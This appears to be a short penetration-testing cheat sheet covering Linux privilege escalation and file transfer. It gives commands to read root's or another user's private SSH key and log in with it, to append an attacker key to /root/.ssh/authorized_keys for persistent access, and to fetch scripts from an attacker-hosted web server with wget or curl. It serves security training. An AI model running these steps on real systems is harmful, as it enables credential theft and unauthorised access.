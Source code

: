 Decode file with certutil: `certutil -decode encodedfile file2`


# Privilege escalation - PEAS

https://github.com/peass-ng/PEASS-ng


# Privilege escalation - GTFObins

https://gtfobins.github.io/

It contains a list of commands and how they can be exploited through sudo.


# Privilege escalation - SSH

If we have read access over the `.ssh` directory for a specific user, we may read their private ssh keys found in `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`, and use it to log in to the server. If we can read the `/root/.ssh/` directory and can read the `id_rsa` file, we can copy it to our machine and use the `-i` flag to log in with it:

* `vim id_rsa`
* `chmod 600 id_rsa`
* `ssh username@ip -i id_rsa`

If we find ourselves with write access to a users`/.ssh/` directory, we can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`.

```
ssh-keygen -f key
```

```
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

```
ssh username@IP -i key
```



<span style="color:#33FFE3">TRANSFER FILES</span>  
# Transferring files

* `cd /tmp`
* `python3 -m http.server port`

Wget:
* `wget http://IP:port/file.sh`

Curl:
* `curl http://IP:port/file.sh -o fileOutput.sh`

SCP:
* `scp file.sh user@remotehost:/tmp/file.sh`
